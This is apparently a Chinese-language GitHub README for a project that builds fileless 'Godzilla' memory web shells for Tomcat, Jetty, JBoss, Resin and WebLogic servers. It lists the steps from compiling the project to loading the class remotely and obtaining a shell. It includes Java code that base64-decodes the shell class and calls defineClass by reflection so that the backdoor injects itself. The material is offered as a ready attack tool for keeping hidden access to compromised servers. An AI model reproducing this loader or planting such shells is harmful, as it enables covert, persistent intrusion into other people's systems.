# GodzillaMemoryShellProject

## 哥斯拉内存Shell项目

当你拥有一个可以加载任意Class的能力,你就可以编译此项目,编译对应容器的Class
当Class被加载之后，你将获得一个哥斯拉的内存shell,你连接时可以填写任意URI路径

```
  1. 选择JDK版本
  2. 编译此项目
  3. 找到对应容器编译出来的Class
  4. 在远程加载该Class
  5. 获得内存Shell
  
```

目前支持以下容器 几乎支持容器的所有版本（欢迎pull更多容器）,你无需关注上下文，这一切哥斯拉内存Shell将会自动搜寻并完成注入
在这个项目你会看到很多的动态代理，这是哥斯拉内存Shell为了兼容javax和jakarta api规范

```
  1. Tomcat 5 - 10
  2. Jetty 7 - 11.0.11
  3. JBoos 8 - 27.0.0
  4. Resin 3 - 4.0.66
  5. Weblogic 10.3.6 - weblogic 14
```

## 如何调用哥斯拉内存shell

```
            //哥斯拉内存shell的class Base64
            String godzillaMemShellClassBase64 = "...........";
            //base64 解码
            byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
            //获得上下文的ClassLoader
            ClassLoader loader = Thread.currentThread().getContextClassLoader();
            //反射获得defineClass方法 用来定义Class
            Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            //使得defineClass方法可访问
            defineClassMethod.setAccessible(true);
            //调用defineClass方法 从class字节码创建Class
            Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
            //创建哥斯拉内存shell实例 哥斯拉内存Shell在此处自动注入
            clazz.newInstance();
            
```

## 注入内存shell/查找上下文很慢？

可以根据目标环境减小maxDetch的值
![image](https://user-images.githubusercontent.com/43266206/179052668-2c98a030-d572-4b7c-8a81-49bc1c17ee01.png)

## 自动搜寻上下文

![image](https://user-images.githubusercontent.com/43266206/179051462-62356e57-7656-42bf-80ee-9c1ddfd3324a.png)
